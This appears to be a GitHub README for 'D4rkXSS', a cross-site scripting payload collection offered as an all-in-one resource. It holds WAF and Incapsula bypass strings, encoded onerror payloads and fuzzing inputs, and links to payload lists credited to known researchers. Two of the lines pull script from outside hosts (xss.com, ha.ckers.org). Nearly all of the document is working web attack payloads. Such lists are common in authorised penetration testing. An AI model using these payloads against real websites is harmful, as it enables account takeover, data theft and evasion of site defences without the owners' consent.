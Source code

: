 # D4rkXSS
<br/>
<p align="center">
	<img src="https://github.com/R0X4R/D4rkXSS/blob/master/imdge.png"><br/>
All in one place for XSS.<br/> <a href="https://eshansingh.in/">R0X4R</a></p>

# Contribution
This is an open source repo. Anyone can contribute. :beers: <br/>
	[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/R0X4R)

## Bypass WAF
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/noscript.txt">NO SCRIPT</a><br/>
<li>For Example:</li>

```js
<acronym><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
<bgsound><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
<xmp><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
">'><details/open/ontoggle=confirm('XSS')>
incapsula bypass: <iframe/onload="var b ='document.domain)'; var a = 'JaV' + 'ascRipt:al' + 'ert(' + b;this['src']=a">
```

<a href="https://github.com/R0X4R/D4rkXSS/blob/master/brutelogic.txt">Brutelogic</a><br/>
<li>For Example:</li>

```
\'-alert(1)//
</script><svg onload=alert(1)>
<x contenteditable onblur=alert(1)>lose focus!
```
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/fuzz.txt">Fuzz3r</a><br/>
<li>For Example:</li>

```
#getURL,javascript:alert(1)",
#goto,javascript:alert(1)",	
?javascript:alert(1)",

```
## IMG Error
<li>Encoding</li>

```
<img onerror="location='javascript:=lert(1)'" src="x">
<img onerror="location='javascript:%61lert(1)'" src="x">
<img onerror="location='javascript:\x2561lert(1)'" src="x">
<img onerror="location='javascript:\x255Cu0061lert(1)'" src="x" >
```


## Jhaddix
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/jhaddix.txt">Jhaddix</a><br/>
<li>For Example:</li>

```
'%22--%3E%3C/style%3E%3C/script%3E%3Cscript%3Eshadowlabs(0x000045)%3C/script%3E
<<scr\0ipt/src=http://xss.com/xss.js></script
%27%22--%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3Cscript%3ERWAR%280x00010E%29%3C%2Fscript%3E
' onmouseover=alert(/Black.Spook/)

```

## RSnake
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/rsnake.txt">RSnake</a><br/>
<li>For Example:</li>

```
<SCRIPT>alert('XSS');</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

```

## MarioXSS
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/mario.txt">Mario</a><br/>
<li>For Example:</li>

```
<div id="1"><form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>//["'`-->]]>]</div><div id="2"><meta charset="x-imap4-modified-utf7">&ADz&AGn&AG0&AEf&ACA&AHM&AHI&AGO&AD0&AGn&ACA&AG8Abg&AGUAcgByAG8AcgA9AGEAbABlAHIAdAAoADEAKQ&ACAAPABi//["'`-->]]>]</div><div id="3"><meta charset="x-imap4-modified-utf7">&<script&S1&TS&1>alert&A7&(1)&R&UA;&&<&A9&11/script&X&>//["'`-->]]>]</div><div id="4">0?<script>
```
## Search Engine XSS
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/seXSS.md">seXSS</a><br/>

## Misc Payloads
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/Misc.md">Misc</a><br/>

## Basic Payloads
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/basicxss.txt">Basic</a><br/>
<li>For Example:</li>

```
<script>alert('1')</script>
"><script>alert('1')</script>
<svg/onload=alert('1');
```
